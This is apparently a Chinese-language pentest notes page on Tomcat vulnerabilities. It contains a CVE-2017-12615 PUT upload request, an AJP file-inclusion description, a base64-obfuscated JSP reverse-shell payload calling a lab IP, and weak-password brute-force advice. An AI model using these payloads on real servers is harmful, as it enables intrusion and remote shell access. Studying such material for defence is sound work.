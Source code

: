 +++
title = 'Tomcat'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java组件'
+++

# 一、Tomcat

Tomcat是Apache 软件基金会（Apache Software Foundation）的Jakarta 项目中的一个核心项目，由Apache、Sun 和其他一些公司及个人共同开发而成。由于有了Sun 的参与和支持，最新的Servlet 和JSP 规范总是能在Tomcat 中得到体现，Tomcat 5支持最新的Servlet 2.4 和JSP 2.0 规范。因为Tomcat 技术先进、性能稳定，而且免费，因而深受Java 爱好者的喜爱并得到了部分软件开发商的认可，成为目前比较流行的Web 应用服务器。

# 二、漏洞介绍与利用

## 1、PUT文件上传 CVE-2017-12615

主要影响版本：




Tomcat 7.0.0-7.0.81

POC：此漏洞较为简单，可梭哈




Tomcat 7.0.0-7.0.81

```
POC：
PUT /1.txt/ HTTP/1.1
Host: 192.168.2.66:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Referer: http://192.168.2.66:8080/tomcat.css
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 3

cxk
```

## 2、AJP文件包含

由于 Tomcat AJP 协议设计上存在缺陷，攻击者通过 Tomcat AJP Connector 可以读取或包含 Tomcat 上所有 webapp 目录下的任意文件，例如可以读取 webapp 配置文件或源代码。


此外在目标应用有文件上传功能的情况下，配合文件包含的利用还可以达到远程代码执行的危害。

影响版本：

Apache Tomcat 6





Apache Tomcat 7< 7.0.100





Apache Tomcat 8< 8.5.51





Apache Tomcat 9< 9.0.31

此漏洞无法梭哈检测，需要指定8009端口和访问文件，工具可利用

利用方式：

1、上传JSP反弹shell文件，内容如下：

```
<%Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIuNDAvODg4OCAwPiYx}|{base64,-d}|{bash,-i}");%>
```

![](/zj_img/WEBRESOURCE2bd2c33e9c184460d768a77a5c8dea8f截图.png)

2、文件包含反弹shell:

![](/zj_img/WEBRESOURCE425208ed092d91b5cdbfaaa162251e77截图.png)

3、弱密码

先从低版本tomcat管理控制台进行弱口令爆破tomcat-6.0.9，在7.x 后的版本加入了防暴力破解，所以针对tomcat 7.x 以后的版本不用考虑爆破。